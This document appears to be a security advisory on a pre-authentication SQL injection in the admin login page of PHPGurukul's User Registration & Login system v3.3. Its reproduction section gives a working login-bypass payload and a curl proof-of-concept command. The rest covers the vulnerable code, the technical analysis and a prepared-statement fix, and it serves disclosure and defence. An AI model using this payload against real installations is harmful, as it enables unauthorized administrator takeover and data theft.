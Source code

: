 # PHPGurukul User Registration & Login and User Management System v3.3 — admin/index.php SQL Injection → Unauthenticated Admin Login Bypass

- Affected Product: PHPGurukul “User Registration & Login and User Management System With admin panel”
- Version: 3.3 (older versions may also be affected; not verified)
- Endpoint: `/loginsystem/admin/index.php`
- Parameter: `username` (POST)
- Authentication: None (Pre‑Auth)
- Vulnerability Type: SQL Injection (CWE‑89) → Authentication Bypass
- Severity: Critical
- Proposed CVSS v3.1: `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` → 10.0

## Summary

A SQL injection in the admin login endpoint allows an unauthenticated attacker to bypass authentication and obtain an administrator session. The `username` parameter is concatenated directly into the SQL `WHERE` clause, and using a line comment truncation removes the password comparison, making the condition tautological.

This issue is distinct from other known SQL injections reported for different endpoints (e.g., `/admin/manage-users.php` with `ID` parameter, and `/admin/user-profile.php` with `uid` parameter that requires an authenticated admin session). This advisory focuses on `/admin/index.php` with `username` and is a pre‑auth login bypass.

## Reproduction Steps

1) Send a POST request to `/loginsystem/admin/index.php` with `Content-Type: application/x-www-form-urlencoded`.

2) Body (example payloads):
username=' OR 1=1 #&password=abc&login=Login

3) Expected Result: The response contains a client-side redirect to `dashboard.php`, and the browser lands on the admin dashboard with a valid admin session.

### PoC (Windows curl)

```bash
curl -i -s -k -X POST "http://localhost/loginsystem/admin/index.php" -H "Content-Type: application/x-www-form-urlencoded" --data "username=' OR 1=1 #&password=abc&login=Login"
```

If successful, the HTML will include:
<script>window.location.href='dashboard.php'</script>

## Technical Analysis

The vulnerable logic concatenates user input directly into an SQL query:

```php
// File: loginsystem/admin/index.php (login handler)
<?php
// ... existing code ...
$adminusername = $_POST['username'];
$pass = md5($_POST['password']);
$ret = mysqli_query($con, "SELECT * FROM admin WHERE username='$adminusername' and password='$pass'");
$num = mysqli_fetch_array($ret);
// ... existing code ...
```

An attacker-controlled `username` such as `' OR 1=1 #` rewrites the query:

```sql
SELECT * FROM admin WHERE username='' OR 1=1 # ' and password='d41d8cd98f00b204e9800998ecf8427e'
```

The password check is commented out, the condition becomes true, and the first admin record is returned, granting a session.

## Impact

- Full admin takeover (read/modify/delete users and data).
- Potential database compromise and chained attacks.
- High risk to confidentiality, integrity, and availability.

## Affected Version

- Confirmed on: 3.3  
- Earlier versions may also be affected but are not verified in this advisory.

## Distinction from Other Reports

- This advisory covers `/admin/index.php` with `username` (Pre‑Auth admin bypass).
- It is different from issues on:
  - `/admin/manage-users.php` using `ID` (SQLi, different endpoint/parameter).
  - `/admin/user-profile.php` using `uid` (SQLi requiring authenticated admin session).

## Recommended Remediation

1) Replace raw concatenation with prepared statements:
```php
// Secure example (mysqli prepared statement)
<?php
// ... existing code ...
$adminusername = $_POST['username'];
$pass = $_POST['password']; // store and compare using password_hash/password_verify, not md5

$stmt = $con->prepare("SELECT id, username, password FROM admin WHERE username = ?");
$stmt->bind_param("s", $adminusername);
$stmt->execute();
$res = $stmt->get_result();
$row = $res->fetch_assoc();

if ($row && password_verify($pass, $row['password'])) {
    $_SESSION['login'] = $row['username'];
    $_SESSION['adminid'] = $row['id'];
    echo "<script>window.location.href='dashboard.php'</script>";
    exit();
} else {
    echo "<script>alert('Invalid username or password');</script>";
    echo "<script>window.location.href='index.php'</script>";
    exit();
}
// ... existing code ...
```

2) Migrate password storage to `password_hash()` / `password_verify()`; never use `md5()` for credentials.

3) Apply consistent parameterization across the codebase, add CSRF protection for state-changing operations, and ensure output encoding for all user-controlled data.

## Disclosure Timeline

- 2025-09-25: Vulnerability discovered and validated locally.


## References

- Product page: https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/
- This advisory: https://github.com/romatdibrohiksnov/vulndb.com/blob/main/README.md

